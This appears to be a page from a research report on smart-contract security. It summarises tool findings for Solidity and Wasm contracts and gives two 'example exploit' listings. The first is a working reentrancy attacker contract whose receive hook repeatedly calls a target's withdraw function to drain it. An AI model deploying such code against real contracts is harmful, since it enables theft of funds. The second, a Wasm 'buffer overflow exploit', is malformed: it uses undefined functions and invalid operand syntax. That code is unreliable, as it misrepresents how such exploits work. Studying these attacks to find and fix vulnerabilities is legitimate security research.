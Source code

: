 #### Solidity&EVM Results

The static analysis of Solidity contracts identified several common vulnerabilities. Mythril detected reentrancy vulnerabilities in 80% of the benchmark contracts, while integer overflow/underflow issues were found in 50% of the cases. Oyente's bytecode analysis corroborated these findings and also highlighted access control misconfigurations in 30% of the contracts. Dynamic testing using Echidna revealed additional edge cases, uncovering vulnerabilities in another 10% of the contracts that static analysis had missed.

```solidity
// Example exploit code for a reentrancy attack on Solidity
contract Attacker {
    address public target;

    constructor(address _target) {
        target = _target;
    }

    function attack() public payable {
        (bool success, ) = target.call{value: msg.value}(abi.encodeWithSignature("withdraw(uint256)", msg.value));
        require(success, "Attack failed");
    }

    receive() external payable {
        if (address(target).balance > 0) {
            (bool success, ) = target.call(abi.encodeWithSignature("withdraw(uint256)", msg.value));
            require(success, "Reentrancy attack failed");
        }
    }
}
```

#### Wasm Results

The static analysis of Wasm contracts using Binaryen and WABT uncovered memory safety issues in 70% of the benchmark contracts. Buffer overflows were the most prevalent issue, followed by use-after-free errors in 40% of the contracts. Dynamic testing with wasm-test further identified logic flaws in 20% of the contracts that were not detected by static analysis. Memory corruption vulnerabilities were particularly prevalent, posing significant risks to the integrity of the Wasm modules.

```webassembly
;; Exploit for a buffer overflow in Wasm
(module
  (func $exploit (param $ptr i32) (param $len i32)
    ;; Overflow the buffer
    (if (i32.ge_u (i32.add $ptr $len) (i32.const 65536))
      (then (unreachable))
    )
    (call $vulnerable_func $ptr $len)
  )
  (memory 1)
  (export "memory" (memory 0))
  (export "exploit" (func $exploit)) )
```
